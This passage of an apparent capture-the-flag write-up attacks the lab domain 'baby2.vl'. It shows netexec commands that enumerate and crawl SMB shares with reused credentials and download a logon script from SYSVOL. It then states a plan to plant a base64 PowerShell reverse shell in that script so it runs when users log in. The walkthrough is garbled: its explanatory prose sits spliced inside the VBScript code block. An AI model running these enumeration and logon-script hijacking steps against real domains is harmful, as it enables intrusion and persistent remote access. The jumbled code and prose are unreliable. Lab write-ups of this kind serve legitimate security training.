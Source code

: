 Now we will enumerate if we got any new share access abusing these users

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2F0ePcriEqngAbbDXno3XI%2Fimage.png?alt=media&#x26;token=2530b016-676a-4e0e-8876-0eb4b715fe57" alt=""><figcaption></figcaption></figure>

We see that now we've got access  to two more shares: `SYSVOL` & `apps` , let's replicate our earlier attack using the `spider_plus` module to check any interesting files on the accessible **shares**&#x20;

```bash
netexec smb baby2.vl -u 'library' -p 'library' -M spider_plus
```

<figure><img src="https://3550432212-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FgxTXO9Ixrx4ExK6jnMbc%2Fuploads%2FHhVzoDKAylJUh1vdi2Ry%2Fimage.png?alt=media&#x26;token=159b1f10-cae4-4fe4-9dfd-8ce6c6c979bb" alt=""><figcaption></figcaption></figure>

The files discovered by the *share crawl* show a file that stands out: b`aby2.vl/scripts/login.vbs`&#x20;

## Foothold: Hijacking login script

Remember the symbolic link we found earlier along with the `CHANGELOG` that indicated a possible login script

We now have access to see what this login script actually does, so let's download it using `netexec` &#x20;

```bash
netexec smb baby2.vl -u 'Guest' -p '' --get-file baby2.vl/scripts/login.vbs login.vbs --share SYSVOL
```

```powershell
Sub MapNetworkShare(sharePath, driveLetter)
This script is a logon script for users and it maps network shares. This means that it will be executed every
time a user logs in. Since we have write access to this share, we can embed a malicious reverse shell inside
this file so that when a user logs in, it will be executed and give us a shell.
First, head to revshells.com and create a base64-encoded PowerShell reverse shell.
Dim objNetwork
Set objNetwork = CreateObject("WScript.Network")
' Check if the drive is already mapped
Dim mappedDrives
Set mappedDrives = objNetwork.EnumNetworkDrives
Dim isMapped
isMapped = False
For i = 0 To mappedDrives.Count - 1 Step 2
If UCase(mappedDrives.Item(i)) = UCase(driveLetter & ":") Then
isMapped = True
Exit For
End If
Next
If isMapped Then
objNetwork.RemoveNetworkDrive driveLetter & ":", True, True
End If
objNetwork.MapNetworkDrive driveLetter & ":", sharePath
If Err.Number = 0 Then
WScript.Echo "Mapped " & driveLetter & ": to " & sharePath
Else
WScript.Echo "Failed to map " & driveLetter & ": " & Err.Description
End If
Set objNetwork = Nothing
End Sub
MapNetworkShare "\\dc.baby2.vl\apps", "V"
MapNetworkShare "\\dc.baby2.vl\docs", "L"
```
